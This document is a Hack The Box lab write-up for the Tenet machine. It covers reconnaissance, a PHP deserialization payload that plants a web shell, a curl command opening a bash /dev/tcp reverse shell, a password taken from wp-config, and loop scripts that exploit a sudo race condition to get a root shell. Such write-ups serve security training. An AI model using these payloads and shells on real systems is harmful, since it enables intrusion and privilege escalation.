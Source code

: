 # Box 



![image-20210317171352650](img/image-20210317171352650.png)

https://www.hackthebox.eu/home/machines/profile/309

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

## Reconnaissance

Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.220 10.10.10.220
```

![image-20210317171607262](img/image-20210317171607262.png)

Let's see the website : 

![image-20210318131705295](img/image-20210318131705295.png)

I am used to add `$box_name.htb` in my `/etc/hosts` file at the start of my machine and we can find another website powered by wordpress : 

![image-20210318131834084](img/image-20210318131834084.png)

One post is really interesting `http://tenet.htb/index.php/2020/12/16/logs/` : 

![image-20210318131913677](img/image-20210318131913677.png)

It seems that there is a `sator.php` file with his backup.

I tried on both website and found the file  http://10.10.10.223/sator.php

I then tried to add ".old", ".bak",".save","~", and we can get the code if you go to this link : 

http://10.10.10.223/sator.php.bak

## Exploitation

Let's see the code : 

![image-20210318132159849](img/image-20210318132159849.png)

It seems clear that we have a php deserialization exploit here. 

If you want to know how it works, I suggest the Ippsec's videos (https://www.youtube.com/watch?v=HaW15aMzBUM)

To create our payload easily I created a php file that generates it. 

```php
<?php

class DatabaseExport
{
	public $user_file = 'rev.php';
	public $data = '<?php system($_GET["cmd"]);?>';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{

		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		//echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}



$app = new DatabaseExport;
echo '\'' . serialize($app) . '\'';


?>


```

We get that payload : 

```php
'O:14:"DatabaseExport":2:{s:9:"user_file";s:7:"rev.php";s:4:"data";s:29:"<?php system($_GET["cmd"]);?>";}'
```

If you want to be sure it is working I used curl to encode my payload.  I created a script that I will use to get our reverse_shell

```bash
#!/bin/bash

curl -G \
      --data-urlencode "arepo=$1" \
      "http://10.10.10.223/sator.php"
```

Executes it and you should have a new webpage http://10.10.10.203/rev.php

![image-20210318132711273](img/image-20210318132711273.png)

You can add `?cmd=command` to get a RCE.

Now we can use this link to get a reverse_shell : 

For the same reasons of the last payload, we need to encode it.

```bash
curl -G \
--data-urlencode "cmd=bash -c 'exec bash -i &>/dev/tcp/10.10.14.17/1234 <&1'" \
http://10.10.10.223/rev.php
```

We know have our shell : 

![image-20210318132940868](img/image-20210318132940868.png)

## Post-Exploitation

### User

After landing on the box I found the user password directly. 

You can find the `wp-config` file in the `/var/www/html/wordpress` folder where you can find a password : 

![image-20210318133649734](img/image-20210318133649734.png)

so we have a login :

```
neil:Opera2112
```

![image-20210318133723944](img/image-20210318133723944.png)

### Root

Classic `sudo -l` 

![image-20210318151604498](img/image-20210318151604498.png)

Let's read the script 

![image-20210318151717006](img/image-20210318151717006.png)

From what I see we have a race condition in `addKey()` function. 

We should be able to write in the `$tmpfile` our own keys to be added in the `authorized_keys` file of root.

I tried a lof of exploit before getting the right one, I used two scripts to get my root shell :

The first one copy the key to the right folder.

```bash
#/bin/bash

while [ 1 ] ; do 
rm -rf /tmp/ssh-*
FILE=$(ls /tmp | grep ssh)
cat  /home/neil/.ssh/id_rsa.pub >> "/tmp/${FILE}"
echo $FILE
ssh root@localhost || true
done
```

and this one start the sudo command in a loop :

```bash
#/bin/bash
for i in {1..999}; do 
sudo /usr/local/bin/enableSSH.sh
done
```

And you should have your shell : 

![image-20210318151950198](img/image-20210318151950198.png)

Rooted.